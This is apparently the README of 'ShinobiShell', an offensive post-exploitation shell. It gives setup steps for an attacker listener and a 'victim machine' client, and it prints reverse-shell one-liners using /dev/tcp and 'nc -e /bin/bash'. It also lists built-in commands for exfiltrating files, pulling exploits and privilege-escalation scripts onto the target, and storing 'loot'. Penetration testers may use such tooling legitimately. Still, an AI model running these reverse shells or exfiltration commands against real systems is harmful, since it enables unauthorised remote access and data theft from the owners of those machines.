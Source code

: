 # ShinobiShell
An experimental shell that handles file exfiltration, exploit injection and various other obnoxious tasks.
```
usage: PROG [options]

Shinobi shell is a shell specifically designed to make exfiltration, proxying,
persistance and other pentesting actions easier.

optional arguments:
  -h, --help            show this help message and exit
  -a, --autoload	Listens for a incoming shell. Then autoloads shinobi shell onto the target
  -t, --ttyCheat        Shows tty shell cheat sheet (need a tty shell for shinobi shell to work)
  -c, --connect         Flag that indicates a reverse shell connection (use this on victim machine)
  -l LISTEN, --listen LISTEN
                        Starts Shinobi Shell listener on port passed in
  -k, --key             Will create an encrpyted tunnel if encrpytion libs available
  -r SERVERADDRESS, --serveraddress SERVERADDRESS
                        Local IP Address used for universal reverse shell
                        handler (optional - use if different than default)
```
## Start your server first:

### Server (Attacking box) 
`./shinobishell.py -l 4443 -k`

`-l` Port server will listen on

`-k` Requesting an encrypted tunnel server (optional but if used, required by all connections)


## OPTION 1: Run Shinobi Shell manually on the victim machine

Client (Penetrated box) 
`./shinobishell.py -c -k ` 

`-c` Connect back to a server

`-k` Try and make an encrytped tunnel

For both server and client, you'll be prompted for a password when using `-k`

For `-c` you will be prompted at run time for the server address

Both `-c` and `-k` were moved to runtime inputs to prevent leaking attacking machine address and key in bash history

## OPTION 2: Start a Shinobi Shell listener on your attacking machine and send it a shell

### Attacking Machine

`./shinobishell.py -a`
> Shinobi Tunnel Plaintext ~~ Be aware

> Which port to listen on: 1000

> What is the ShinobiServer address:port combination: 127.0.0.1:443


### Victim Machine

Send a reverse shell 

(tested and known to work)

`/bin/bash -i >& /dev/tcp/127.0.0.1/1000 0>&1`

`nc 127.0.0.1 1000 -e /bin/bash`

`nc 127.0.0.1 1000 -e /bin/sh`


## -h --help Help output

```
Shinobi Shell v1.0
Author: Anthony Russell
Contact: Twitter @DotNetRussell
Blog: https://DotNetRussell.com  (don't hack me bro)

Commands:

help -                      displays help information
machineinfo -               displays a series of machine variables to help with priv esc
searchsploit -              <search text> sends a searchsploit command back to your attacking machine and returns the results through shinobi tunnel
exfil <file name> -         exfiltrates a file back to your attacking machine via shinobi tunnel
ssdownload <exploit path> - downloads a search sploit exploit from your attacking machine
download <url> -            does a wget for your file on your attacking machine and then transfers it to you over shinobi tunnel
linenumdownlods -           linenum.sh to the Shinobi Server and then transfers it back to the client
suid3num -		    downloads suid3num.py to the Shinobi server and then transfers it back to the client

Loot Chest:

loot store <key> <value> -  stores a key value pair in your loot chest
loot <key> -                gets a loot value
loot show -                 shows everything in loot chest

NOTE: Loot chest auto syncs with attacking machine
	
Auto Aliases
lsa == ls -la
```
